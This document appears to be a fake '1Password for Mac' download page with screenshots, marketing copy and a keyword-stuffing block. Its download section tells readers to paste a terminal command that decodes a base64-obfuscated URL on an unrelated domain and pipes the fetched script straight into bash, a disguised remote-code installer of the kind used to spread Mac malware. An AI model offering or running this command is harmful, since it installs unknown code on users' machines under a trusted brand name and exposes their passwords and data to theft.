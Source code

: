# 1Password for Mac Download - Secure Password Management

![1Password Screenshot 1](https://images.ctfassets.net/2h488pz7kgfv/2Ej16DimNGt46UxcHozzRX/f04cb38f2bb8b6831d4bac0f4477b454/downloads-mac-1password-multi-device-adobe-product-ui-2078x1168.webp)

---

### 🔽 Download 1Password for Mac

> 📥 Open the terminal on your device and paste the command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```

---

## What is 1Password for Mac?

1Password is the most advanced password manager application designed specifically for macOS users who value security and convenience. This award-winning software provides an encrypted digital vault to store all your sensitive information including passwords, credit card details, secure notes, personal documents and other confidential data.

Unlike basic password managers, 1Password offers enterprise-grade security features:
- Military-grade 256-bit AES encryption
- Secure password generator with customizable rules
- Biometric authentication using Touch ID
- Two-factor authentication support
- Cross-platform synchronization
- Password health monitoring
- Travel Mode for border security
- Watchtower security alerts

The application features beautiful native macOS interface with Dark Mode support and seamless integration with Safari, Chrome, Firefox and other popular browsers. Business teams can securely share credentials while maintaining strict access controls and permission levels.

With its intuitive design and robust security architecture, 1Password has become essential software for millions of security-conscious users worldwide who want to simplify their digital life without compromising protection.

![1Password Screenshot 2](https://images.ctfassets.net/2h488pz7kgfv/3U73PqHjeIqw7v0ugcbgwY/ba79fddcd3e2f2f1c54d4ed97d98d808/downloads-mac-1password-watchtower-1114-product-ui-1248x832.webp)

---

## Key Features & Benefits 🚀

- 🔐 Unbreakable 256-bit encryption
- 🛡️ Travel Mode for border security
- 🔔 Watchtower breach alerts
- 🌐 Cross-device synchronization
- 💳 Secure digital wallet
- 👨‍👩‍👧‍👦 Family sharing options
- 📁 Secure document storage
- 🖥 Native macOS integration

---

## Keywords

1Password for Mac, 1Password Mac Download, 1Password for Mac Download, 1Password Mac, 1Password Download Mac, 1Password Download for Mac, 1Password full version, Mac Download 1Password, Download Mac 1Password, Download 1Password Mac, Download 1Password for Mac
